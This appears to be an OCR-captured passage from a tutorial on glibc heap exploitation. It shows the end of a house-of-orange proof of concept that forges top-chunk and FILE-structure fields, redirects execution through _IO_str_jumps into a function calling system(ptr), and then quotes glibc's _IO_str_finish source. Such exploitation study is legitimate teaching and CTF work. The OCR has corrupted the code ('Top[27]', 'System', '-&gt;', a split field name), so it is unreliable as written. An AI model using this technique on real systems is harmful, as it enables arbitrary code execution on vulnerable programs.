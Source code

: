 ```c

    // house_of_orange conditions
    top[1] = 0x61;



    top[20] = (size_t) &top[18];

    top[21] = 2;

    top[22] = 3;

    top[24] = -1;

Top[27] = (size_t)stdin - 0x3868-0x18; // _IO_str_jumps address
    top[28] = (size_t) &winner;

  	

    /* Finally, trigger the whole chain by calling malloc */

    malloc(10);

    return 0;

}

int winner(char *ptr)

{ 

System (ptr);
    return 0;

}

```







### _IO_str_jumps -> finish



The principle is similar to _IO_str_jumps -&gt; overflow above


```c

void

_IO_str_finish (_IO_FILE * fp, int dummy)
{

  if (fp->_IO_buf_base && !(fp->_flags & _IO_USER_BUF))

    (((_IO_strfile *) fp)->_s._free_buffer) (fp->_IO_buf_base);  //[fp+0xe8]

fp -&gt; _ IO_buf_base = NULL;


  _IO_default_finish (fp, 0);

}
```